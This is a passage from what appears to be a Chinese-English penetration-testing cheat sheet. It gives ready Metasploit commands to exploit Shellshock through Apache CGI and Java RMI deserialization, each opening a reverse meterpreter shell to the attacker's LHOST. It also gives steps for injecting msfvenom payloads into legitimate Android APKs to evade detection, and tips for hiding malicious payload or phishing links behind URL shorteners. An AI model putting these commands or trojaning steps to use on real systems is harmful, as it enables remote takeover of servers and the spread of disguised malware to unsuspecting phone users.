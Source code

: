         # Or: script /dev/null -c bash
        ```

#### Shellshock
*   **描述**: Bash 处理环境变量时存在缺陷 (CVE-2014-6271, CVE-2014-6278)，可通过 CGI 等途径触发远程命令执行.
*   **流程**:
    1.  **探测**: Use specialized scanners or manual tests targeting CGI scripts.
    2.  **利用** (Example: Apache mod_cgi):
        ```
        use exploit/multi/http/apache_mod_cgi_bash_env_exec
        set RHOSTS <Target_IP>
        set TARGETURI /path/to/vulnerable.cgi
        set LHOST <Your_IP>
        # Configure payload (e.g., linux/x86/meterpreter/reverse_tcp)
        exploit
        ```

#### Java RMI Server Deserialization
*   **描述**: Java RMI 注册表或服务在处理反序列化数据时可能存在漏洞，导致 RCE.
*   **流程**:
    1.  **探测**:
        ```bash
        nmap -p 1099 --script rmi-dumpregistry <Target_IP> # Port 1099 is common for RMI registry
        ```
    2.  **利用** (Generic RMI Server Exploit):
        ```
        use exploit/multi/misc/java_rmi_server
        set RHOSTS <Target_IP>
        set RPORT 1099 # Adjust if non-default
        set LHOST <Your_IP>
        # Choose appropriate payload
        exploit
        ```

### 9. 高级技巧与其他

*   **Android 木马免杀**:
    *   **工具**: `backdoor-apk`, `Apktool`.
    *   **原理**: 将 MSF 生成的 Android Payload 注入到正常的 APK 文件中，再重新打包签名，以绕过一些简单的检测.
    *   **步骤**: Generally involves using `msfvenom` to create the payload, `apktool` to decompile the target APK, manually inserting payload/smali code, and then recompiling/signing using `apktool` and signing tools. The `backdoor-apk` script automates parts of this.
*   **隐藏链接**: 使用 URL 短链服务 (e.g., TinyURL) 隐藏指向恶意 Payload 或钓鱼页面的链接.
*   **沙箱分析**: 使用在线沙箱（如微步在线、VirusTotal、Hybrid Analysis）分析生成的 Payload 或可疑文件的行为.